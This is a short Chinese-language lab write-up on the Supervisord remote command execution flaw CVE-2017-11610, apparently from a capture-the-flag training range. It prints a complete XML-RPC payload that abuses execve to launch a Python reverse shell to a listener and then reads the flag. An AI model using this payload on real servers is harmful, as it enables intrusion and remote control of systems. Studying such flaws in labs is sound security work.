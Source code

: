 # CVE-2017-11610（ Supervisord 远程命令执行漏洞）

## 概述

Supervisord 是使用 Python 开发的进程管理程序，Supervisord 能够将命令行进程或服务变为后台运行的deamon（守护进程）。Supervisord 拥有监控进程状态的功能，在进程异常退出时能够自动重启进程。

Supervisord 在配置了 Web 接口后，服务器会启动一个 XMLRPC 服务器，端口号为 9001，利用本漏洞，在获取接口访问权限后，远程攻击者可利用发送一段精心构造的请求，导致可在服务器执行任意代码。

首先打开靶场，并进行抓包。

![1](./1.png)

利用 POC 去执行，发现无回显，用 DNSlog 去验证。

![3](./3.png)

然后在跳板机上用 nc 监听。

![4](./4.png)

利用 POC 反弹shell, poc 如下。

`<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.execve</methodName>
<params>
<param>
<string>/usr/bin/python</string>
</param>
<param>
<array>
<data>
<value><string>python</string></value>
<value><string>-c</string></value>
<value><string>import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.0.0.0",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);</string></value>
</data>
</array>
</param>
<param>
<struct>
</struct>
</param>
</params>
</methodCall>`



![5](./5.png)

反弹过来 shell,查看 tmp 临时文件来拿 Flag。

![6](./6.png)